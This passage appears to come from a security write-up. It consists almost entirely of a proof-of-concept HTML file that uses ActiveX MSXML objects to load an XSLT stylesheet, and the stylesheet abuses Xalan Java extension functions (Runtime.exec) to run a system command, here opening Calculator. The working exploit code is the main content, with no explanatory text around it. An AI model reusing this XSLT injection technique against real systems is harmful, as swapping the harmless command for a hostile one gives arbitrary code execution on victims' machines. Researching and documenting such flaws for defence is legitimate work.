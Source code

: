 ```bash
```

poc.html

```bash
<script>
    var xslt = new ActiveXObject("Msxml2.XSLTemplate.6.0");
    var xslDoc = new ActiveXObject("Msxml2.FreeThreadedDOMDocument.6.0");
    var xslProc;
    xslDoc.async = false;
    xslDoc.loadXML(`<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
   <xsl:template match="/">
     <xsl:variable name="rtobject" select="rt:getRuntime()"/>
     <xsl:variable name="process" select="rt:exec($rtobject,'open -a Calculator')"/>
     <xsl:variable name="processString" select="ob:toString($process)"/>
     <span><xsl:value-of select="$processString"/></span>
   </xsl:template>
 </xsl:stylesheet>`)

    if (xslDoc.parseError.errorCode != 0) {
        var myErr = xslDoc.parseError;
        document.write("ParseError: "+myErr.reason);
    } else {
        xslt.stylesheet = xslDoc;
        var xmlDoc = new ActiveXObject("Msxml2.DOMDocument.6.0");
        xmlDoc.async = false;
        xmlDoc.loadXML("<s></s>");
        if (xmlDoc.parseError.errorCode != 0) {
            var myErr = xmlDoc.parseError;
            document.write("Document error: " + myErr.reason);
        } else {
            xslProc = xslt.createProcessor();
            xslProc.input = xmlDoc;
            xslProc.transform();
            document.write(xslProc.output);
        }
    }
</script>
```

[![](assets/1702521100-81738f170cdb0d99819dc1764c33aaeb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231203235706-9b81d50a-91f4-1.png)
